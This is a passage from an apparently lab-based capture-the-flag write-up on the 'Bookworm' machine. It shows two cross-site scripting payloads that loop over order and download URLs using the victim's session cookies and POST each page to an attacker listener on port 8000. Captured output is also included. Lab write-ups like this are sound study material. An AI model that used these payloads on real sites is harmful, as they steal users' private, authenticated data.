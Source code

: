 Because the note in the basket section mentioned previous orders, let's take a minute to evaluate
the order numbers. We can see from the above output that there is a gap between the last order
(196) and the first few (16,17,18).Let's modify our payload

```
for (let i = 1; i <= 30; i++) {
    fetch(`http://bookworm.htb/order/${i}`, { mode: 'no-cors', credentials: 'include' })
        .then(response => response.text())
        .then(text => {
            fetch("http://10.10.14.50:8000", { mode: 'no-cors', method: "POST", body: text });
        });
}

```
Copy our payload and go back to `Repeater` and change file containing in `test.txt` .
After i ran `post.py` and `basket.py` i saw file .pdf on `/download` 

```
 <a href="/download/7?bookIds=9" download="Tom Slade with the Flying Corps: A Campfire Tale.pdf">Download e-book</a>
<a href="/profile">View Your Other Orders</a>
10.10.11.215 - - [23/Jan//images/bookworm/2024 08:26:08] "POST / HTTP/1.1" 200 -
      href="/static/css/bootstrap.min.css"
        <a class="navbar-brand" href="#">Bookworm</a>
              <a class="nav-link " href="/">Home</a>
              <a class="nav-link " href="/shop">Shop</a>
                <a class="nav-link " href="/basket">Basket (0)</a>
                <a class="nav-link " href="/profile">Jakub Particles</a>
        <a href="/download/8?bookIds=10" download="Ye Book of Copperheads.pdf">Download e-book</a>
        <a href="/download/8?bookIds=11" download="La vigna vendemmiata: novelle.pdf">Download e-book</a>
  <a href="/download/8?bookIds=7&amp;bookIds=20" download>Download everything</a>
<a href="/profile">View Your Other Orders</a>
      href="/static/css/bootstrap.min.css"
        <a class="navbar-brand" href="#">Bookworm</a>
              <a class="nav-link " href="/">Home</a>
              <a class="nav-link " href="/shop">Shop</a>
                <a class="nav-link " href="/basket">Basket (0)</a>
                <a class="nav-link " href="/profile">Jakub Particles</a>
        <a href="/download/9?bookIds=12" download="Through the Looking-Glass.pdf">Download e-book</a>
```

        
you can using 
`python3 post.py | grep download` but to find this firstly i used `grep href` to finding file or somethings else . Now i'll try check the files one by one maybe one of it contain password and username to login ssh . We can't access download link directly.We need modify our payload again to gain access download link and the type of content
that it sends . 

```
for(let i = 1; i <= 30; i++)
{
fetch("http://bookworm.htb/download/"+i+"?bookIds=13", { mode: 'no-cors',
credentials: 'include'})
      .then((response) => response.text())
      .then((text) => {
        fetch("http://10.10.14.122:8000", { mode: 'no-cors', method:"POST", body:
text})
    });
}
```
